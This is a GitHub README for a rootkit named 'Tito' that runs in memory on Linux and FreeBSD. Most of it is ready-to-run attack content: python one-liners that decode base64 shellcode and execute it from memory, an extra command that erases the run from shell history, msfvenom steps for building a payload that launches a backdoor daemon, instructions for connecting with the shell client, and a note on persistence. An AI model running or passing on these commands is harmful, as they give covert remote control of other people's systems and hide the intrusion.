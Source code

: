 # Tito
A complete In-Memory Rootkit For FreeBSD. On Linux the shell is completely in memory with optional on-disk persistance using an injected library.  

<h2>From Tito to Stalin:</h2>

"Stop sending people to kill me. We’ve already captured five of them, one of them with a bomb and another with a rifle. If you don’t stop sending killers, I’ll send one to Moscow, and I won’t have to send a second."

You can run the entire rootkit from the Linux command-line like so:

```
python3 -c 'import base64, mmap, ctypes; encoded_shellcode = "SDHJSIHp9////0iNBe////9Iu6ajGtSlB5bkSDFYJ0gt+P///+L07hs1tsxpuZfOo4OE8VjEgs6OeYD7VX75pqMa+81o+4GJ03LnlnW5rfXrX5jpKuDUiJE1vdZv8uTw9E6KzzzO66OjGtSlB5bk"; shellcode = base64.b64decode(encoded_shellcode); mem = mmap.mmap(-1, len(shellcode), mmap.MAP_PRIVATE | mmap.MAP_ANONYMOUS, mmap.PROT_WRITE | mmap.PROT_READ | mmap.PROT_EXEC); mem.write(shellcode); addr = ctypes.addressof(ctypes.c_char.from_buffer(mem)); shell_func = ctypes.CFUNCTYPE(None)(addr); print("... and I won’t have to send a second."); shell_func()' && history -d $(history | awk 'END { print $1 }')
```

With FreeBSD, it will depend on the version of python installed. If you have python3.11 you can just use this:

```
python3.11 -c 'import base64, mmap, ctypes; encoded_shellcode = "SDHJSIHp+P///0iNBe////9Iu67h2fdth+YDSDFYJ0gt+P///+L05tALH0+H5gOBibaaCKiWa53Sq9gZ7pJsgaiKvyjLqi7Y0ffEQu6Va8rhhqU6z2/l5tAZv+5P3Qyr4dn3bYfmAw=="; shellcode = base64.b64decode(encoded_shellcode); mem = mmap.mmap(-1, len(shellcode), mmap.MAP_PRIVATE | mmap.MAP_ANONYMOUS, mmap.PROT_WRITE | mmap.PROT_READ | mmap.PROT_EXEC); mem.write(shellcode); addr = ctypes.addressof(ctypes.c_char.from_buffer(mem)); shell_func = ctypes.CFUNCTYPE(None)(addr); print("...and I will not have to send a second."); shell_func()' 2>/dev/null
```

The path to binary here in these examples is hardcoded, but you may go into the ISHELL-v0.3 folder and type 'make linux' or 'make bsd' to build ish and ishd. Then you can make your own shellcode like this:

```
msfvenom -p linux/x64/exec CMD=/path/to/ishd -f c -b "\x00\x0a\x0d" > shellcode.txt
```

You can parse out only the shellcode and base64 encode it like this:

```
grep '"' shellcode.txt | tr "\n" " " | sed -e 's/\" \"//g;s/\"//g;s/;//g' | base64
```

Then you may run ish with the ip of the device the rootkit was ran on to connect.

Currently tested on x86_64 Debian Trixie and FreeBSD 14.1

People from HardenedBSD have reported the shell here will also work with libhijack to add persistance. That utility will load a Shared Library in memory making this a complete In-Memory rootkit for BSD if you choose. 

Previously I did not include persistance with Linux as 1. - Persistance would require writing to disk and 2. - Many servers remain up thousands of days without a reboot making it pointless. In the optional-persistnace you may now find an additional README file to deploy this feature if you choose.
